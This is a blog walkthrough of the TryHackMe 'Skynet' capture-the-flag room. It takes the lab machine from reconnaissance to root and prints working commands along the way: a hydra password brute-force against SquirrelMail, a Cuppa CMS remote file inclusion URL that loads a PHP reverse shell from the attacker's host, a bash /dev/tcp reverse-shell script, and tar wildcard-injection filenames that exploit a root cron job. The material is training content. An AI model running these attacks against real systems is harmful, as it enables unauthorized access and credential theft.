 ```yaml
---
title: "TryHackMe - Skynet - Walkthrough"
date: 2020-12-02T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - skynet
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Skynet][skynet]. Let’s get started!

# Deploy and Compromise the machine
Since we don’t know anything about this machine, let’s start with an nmap scan! The command I used was: `nmap -sC -sV -oN nmap.txt <machine_ip>`

![s1](/assets/images/thm/skynet/s1.webp)

We can see that we have `ssh`, `http`, `pop3`, `smb`, and `imap` open. We can immediately eliminate `ssh` as an attack vector, so we need to focus on the others. First answer is asking for a password to an email, so let’s start by looking at the website.

![s2](/assets/images/thm/skynet/s2.webp)

We don’t see much here. Let’s run a gobuster scan in order to gather some directories. I used this command: `gobuster dir -u http://10.10.8.13 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

gobuster finds a few directories, however we aren’t able to access them. We get a **Forbidden** message. I will let gobuster continue running in the background, but let’s checkout the smb avenue.

If we use the `smbclient` we see the following (Hit **Enter** when prompted for a password):

![s3](/assets/images/thm/skynet/s3.png)

We definitely see some interesting share’s here. We have a possible username: milesdyson. Lets checkout that share: `smbclient \\\\10.10.8.13\\milesdyson` 

Unfortunately, we don’t have access. Instead, let’s try the `anonymous` share.

We are in! We see `attention.txt` and `logs`. Run: `get attention.txt` to download the file.

![s4](/assets/images/thm/skynet/s4.png)

Hmm…that’s interesting! Maybe the logs caught some people’s passwords? Let’s see!

`cd` into the logs directory, and we see 3 files. The only one that has any date (due to the size) is `logs1.txt`. Let’s download that and take a look!

![s5](/assets/images/thm/skynet/s5.png)

This looks very promising!! This looks like it could be some passwords? We could use this as a wordlist in `hydra` if we can find a login page anywhere. Let’s check back with `gobuster`.

We see one new entry `/squirrelmail`. Let’s see if we can reach this page!

![s6](/assets/images/thm/skynet/s6.webp)

Success!! Now we “think” we already know a username: `milesdyson`, but we don’t know his password. We could try each entry in that list one-by-one, but that might take some time. Let’s try to use hydra against the login. Format your `hydra` like the following:

```bash
hydra -l milesdyson -P <password_wordlist> <machine_ip> <request_type> '<login_page>:<request_body>:<invalid_notification>'
```

If you are unsure as to what those mean, or how to find them, read this article on the topic: here. Our command will be the following:

```bash
hydra -l milesdyson -P log1.txt 10.10.8.13 http-post-form '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.'
```

![s7](/assets/images/thm/skynet/s7.webp)

Perfect! Our first answer! Let’s login to the mail! If we look at the emails we find a **Samba Password reset** email.

![s8](/assets/images/thm/skynet/s8.png)

After looking around more, there doesn’t seem to be anything else. Let’s login to the `milesdyson` samba share using that password!

`smbclient -U milesdyson \\\\10.10.8.13\\milesdyson`

When we `ls` the share, we see a few items in there. One that sticks out to me is the notes directory.

When we look at the notes directory, there are a lot of files in it, but which one is important?? `get important.txt`

![s9](/assets/images/thm/skynet/s9.png)

There is our next answer! Now we can navigate to that directory.

![s10](/assets/images/thm/skynet/s10.webp)

Hmm…not much here. But we did see a mention of `CMS` in the `important.txt` file. Let’s run a gobuster scan against this URL:

`gobuster dir -u http://10.10.8.13/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Eventually, we get back an `/administrator` page. Navigate to that page.

![s11](/assets/images/thm/skynet/s11.webp)

We see it is using **Cuppa CMS**. Let’s see if there are any exploits for this in `searchsploit`.

`searchsploit cuppa`
`cat /usr/share/exploitdb/exploits/php/webapps/25971.txt`

Reading through, we get our third answer. Now let’s use the exploit!

First, we need to know how we can use a file in order to get a shell on a machine. In this case, we know this is using .php. Let’s use `php-reverse-shell.php`! This can be found [here][php-rev-shell]. Make sure to change the parameters to your machine and IP you will use to listen for the reverse shell!

![s12](/assets/images/thm/skynet/s12.png)

Now we need to start a http server on our machine in the folder where the reverse shell file is located: `python3 -m http.server 80`

Start a netcat listener on the specified port: `nc -nvlp 1234`

Then curl or navigate to the following url:

`http://10.10.8.13/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<thm_tun0_ip>:80/php-reverse-shell.php`

When you navigate to your terminal with the netcat listener, you should see a shell! Let’s look for the user flag.

![s13](/assets/images/thm/skynet/s13.png)

Now we need to escalate our privileges for the root flag! Before we do anything else, let’s get into a better shell using python:

`python -c 'import pty; pty.spawn("/bin/bash")'`

Let’s see if we have any sudo permissions: `sudo -l`, nope! Maybe there are `cron` jobs running as root?

`cat /etc/crontab`

We see there is a `backup.sh` that runs every minute! There’s our target. Let’see what’s in there: `cat /home/milesdyson/backups/backup.sh`

![s14](/assets/images/thm/skynet/s14.png)

We need to use this cron job to gain a shell. I wonder if there is a way to execute a shell from tar? Let’s check out [GTFObins][gtfo]. We can search for the `tar` command, and we see a few options. Let’s try the first one:

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

We can use this to get a shell, but we need to create some things first:

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/<thm_tun0_ip>/1235 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Now we can open up a `netcat` listener to get the reverse shell: `nc -nvlp 1235`
**NOTE:** This could take up to a minute for the shell to come through

We have a root shell! Let’s find our root flag!

![s15](/assets/images/thm/skynet/s15.png)

# References
[TryHackMe][thm] | [Skynet Room][skynet] | Hydra Brute-Force Login | [php-reverse-shell.php][php-rev-shell] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[skynet]: https://tryhackme.com/why-subscribe?roomCode=skynet
[php-rev-shell]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io